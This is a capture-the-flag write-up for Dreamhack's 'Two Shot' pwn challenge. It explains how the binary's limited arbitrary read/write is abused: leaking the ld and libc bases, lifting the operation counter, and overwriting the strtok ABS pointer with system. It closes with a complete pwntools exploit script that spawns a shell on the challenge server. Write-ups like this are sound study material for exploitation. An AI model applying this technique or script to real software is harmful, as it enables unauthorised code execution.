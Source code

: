 # Two Shot – Dreamhack (Pwn Lv-5)

**Author:** Dandelion  

---

## Protections
| RELRO | Canary | NX  | PIE |
|-------|--------|-----|-----|
| Full  | Yes    | On  | Off |

---

## Vulnerability Summary
The challenge provides only **two chances** to perform either arbitrary read or arbitrary write.  
After the two operations, the program terminates.  

Interesting quirks:
- The **first input** is handled relative to `rbp`.  
- Later inputs are handled relative to `rsp`.  
- The **stack canary** is also checked against the `rsp` region (not `rbp` as usual).  

The program maintains a counter at an address stored in `rbx`.  
This counter increments with each use of read/write and forces termination when it reaches `2`.  

By leaking memory around `0x402000`, it became clear that the counter resides inside the `ld` mapped region.

---

## Exploitation Strategy
1. **Bypass operation limit**  
   Leak the `ld` base, compute the address of the counter, and overwrite it with `0x30`.  
   This bypassed the two-operation restriction (not strictly required).  

2. **Leak libc**  
   Leak the `strtok@GOT` entry and calculate libc base.  

3. **ABS pointer overwrite**  
   Instead of traditional return address overwrite (blocked by stack canary and a `syscall 60` exit before returning),  
   the exploit targets the **ABS pointer**. On Ubuntu 22.04 this trick is still viable.  
   `strtok@ABS` was overwritten with the address of `system`.  

4. **Trigger `system("/bin/sh")`**  
   Since `strtok` receives its argument in `rdi` from `[rbp]`, sending `"/bin/sh"` directly triggers `system("/bin/sh")`.  

---

## Exploit Code
```python
from pwn import *

p = remote('host8.dreamhack.games', 23207)
# p = process('./prob', env={'LD_PRELOAD': './libc.so.6'})
libc = ELF('./libc.so.6')
elf = ELF('./prob')

l_addr = 0x403e98
strtok_got = elf.got['strtok']

def write(size, addr, data):
    p.sendafter(b': ', b'1')
    p.sendafter(b': ', p16(size))
    p.sendafter(b': ', p64(addr))
    p.sendafter(b': ', data)

def read(addr):
    p.sendafter(b': ', b'2')
    p.sendafter(b': ', p64(addr))

# Leak ld base
read(l_addr)
p.recvuntil(b': ')
ld_base = u64(p.recvn(8)) - 0x3b118
count = ld_base + 0x37000

# Bypass counter limit
write(0x8, count, b'\x30')

# Leak libc
read(strtok_got)
p.recvuntil(b': ')
lb = u64(p.recvn(8)) - libc.symbols['strtok']
system = lb + libc.symbols['system']
strtok_ABS = lb + 0x219058

# Overwrite ABS pointer
write(0x8, strtok_ABS, p64(system))

# Trigger system("/bin/sh")
p.send(b'/bin/sh')
p.interactive()






